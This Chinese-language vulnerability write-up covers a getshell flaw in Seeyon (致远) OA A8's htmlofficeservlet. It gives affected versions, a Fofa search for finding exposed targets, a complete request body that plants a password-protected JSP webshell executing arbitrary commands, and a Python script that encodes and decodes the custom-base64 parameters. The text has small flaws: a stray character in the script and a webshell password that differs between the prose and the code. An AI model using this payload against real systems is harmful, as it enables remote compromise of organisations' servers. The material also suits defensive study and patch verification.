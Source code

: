 致远 OA A8 htmlofficeservlet getshell 漏洞
==========================================

一、漏洞简介
------------

访问https://wiki.0-sec.org/img
src=\"https://wiki.0-sec.org/img/19f51e83094c4ce79a3da658a24f961b.png\"
alt=\"1.png\" class=\"large\" onclick=\"window.open(this.src)\" /\>

二、漏洞影响
------------

致远A8-V5协同管理软件 V6.1sp1

致远A8+协同管理软件 V7.0、V7.0sp1、V7.0sp2、V7.0sp3

致远A8+协同管理软件 V7.1

三、复现过程
------------

### 指纹

    https://www.0-sec.org/seeyon/htmlofficeservlet /seeyon/index.jsp
    seeyon
    Fofa：app="用友-致远OA"

![0d4b978ed1474946.png](./.resource/致远OAA8htmlofficeservletgetshell漏洞/media/rId25.png)

    DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
    OPTION=S3WYOSWLBSGr
    currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
    CREATEDATE=wUghPB3szB3Xwg66
    RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
    originalFileId=wV66
    originalCreateDate=wUghPB3szB3Xwg66
    FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
    needReadFile=yRWZdAS6
    originalCreateDate=wLSGP4oEzLKAz4=iz=66
    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("asasd33445".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce

webshell地址为**https://www.0-sec.org/seeyon/test123456.jsp**，密码为：asasd3344。

### poc

    from sys import argv
    
    letters = "gx74KW1roM9qwzPFVOBLSlYaeyncdNbI=JfUCQRHtj2+Z05vshXi3GAEuT/m8Dpk6"
    
    def base64_encode(input_str):
        str_ascii_list = ['{:0>8}'.format(str(bin(ord(i))).replace('0b', ''))
                          for i in input_str]
        output_str = ''
        equal_num = 0
        while str_ascii_list:
            temp_list = str_ascii_list[:3]
            if len(temp_list) != 3:
                while len(temp_list) < 3:
                    equal_num += 1
                    temp_list += ['0' * 8]
            temp_str = ''.join(temp_list)
            temp_str_list = [temp_str[x:x + 6] for x in [0, 6, 12, 18]]
            temp_str_list = [int(x, 2) for x in temp_str_list]
            if equal_num:
                temp_str_list = temp_str_list[0:4 - equal_num]
            output_str += ''.join([letters[x] for x in temp_str_list])
            str_ascii_list = str_ascii_list[3:]
        output_str = output_str + '=' * equal_num
        return output_str
    
    def base64_decode(input_str):
        str_ascii_list = ['{:0>6}'.format(str(bin(letters.index(i))).replace('0b', ''))
                          for i in input_str if i != '=']
        output_str = ''
        equal_num = input_str.count('=')
        while str_ascii_list:
            temp_list = str_ascii_list[:4]
            temp_str = ''.join(temp_list)
            if len(temp_str) % 8 != 0:
                temp_str = temp_str[0:-1 * equal_num * 2]
            temp_str_list = [temp_str[x:x + 8] for x in [0, 8, 16]]
            temp_str_list = [int(x, 2) for x in temp_str_list if x]
            output_str += ''.join([chr(x) for x in temp_str_list])
            str_ascii_list = str_ascii_list[4:]
        return output_str
    
    if __name__ == "__main__":
        if len(argv) == 2:
            print(base64_decode(argv[1]))
        elif len(argv) == 3:
            if argv[1] == '-d':
                print(base64_decode(argv[2]))
            else:
                print(base64_encode(argv[2]))
        else:
            print("Seeyon OA /seeyon/htmlofficeservlet param encode/decode")
            print("Usage:")
            print("python %s encoded_str" % argv[0])t
            print("python %s -d encoded_str" % argv[0])
            print("python %s -e raw_str" % argv[0])

参考链接
--------

> https://github.com/nian-hua/CVEScript/blob/master/致远OA/zhiyuan.py
>
> http://wyb0.com/posts/2019/seeyon-htmlofficeservlet-getshell/
